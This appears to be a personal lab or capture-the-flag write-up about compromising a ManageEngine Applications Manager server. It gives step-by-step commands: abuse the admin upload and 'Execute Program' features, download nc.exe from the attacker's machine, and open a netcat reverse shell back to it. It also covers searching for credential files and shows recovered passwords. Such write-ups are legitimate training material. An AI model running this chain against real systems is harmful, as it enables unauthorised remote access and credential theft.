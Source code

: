 
## 192.168.247.95 https
![[Pasted image 20241226191655.png]]
Click "First Time User?" -> get creds

![[Pasted image 20241226191718.png]]

Login with creds

Under Admin > Uploads Files/Binaries
![[Pasted image 20241226192138.png]]
`<Product_Home> = C:\Program Files\ManageEngine\AppManager14`

Upload a bat file for downloading nc.exe to the target machine (the binary is hosted on Kali).
File content:
```
powershell -Command "Invoke-WebRequest http://192.168.45.242:8888/nc.exe -OutFile 'C:\Program Files\ManageEngine\AppManager14\working\nc.exe'"
```
![[Pasted image 20241226201545.png]]

RCE Execute the bat script on the "Execute Program" page
1. Create action
   ![[Pasted image 20241226201734.png]]
2. Save and execute action
   ![[Pasted image 20241226201822.png]]

Next, run `nc -nlvp 6666` on Kali, then repeat the above steps to upload and execute this bat file to obtain reverse shell:
```
@echo off
.\nc.exe -e cmd 192.168.45.242 6666
PAUSE
exit
```

![[Pasted image 20241226201924.png]]

A flag is in `C:\Users\Administrator\Desktop\proof.txt`


Use command `Get-ChildItem -Path "C:\Program Files\ManageEngine\AppManager14" -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue` to find potentially sensitive files
- `C:\Program Files\ManageEngine\AppManager14\working\mysql\my.ini`:
	- default password for MySQL is `appmanager`

Creds found in `C:\Users\Administrator\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings`:
```
<profileName scope="Local">SECURE\apache</profileName>
        <userName>apache</userName>
        <password>New2Era4.!</password>
        <domain>SECURE</domain>
```
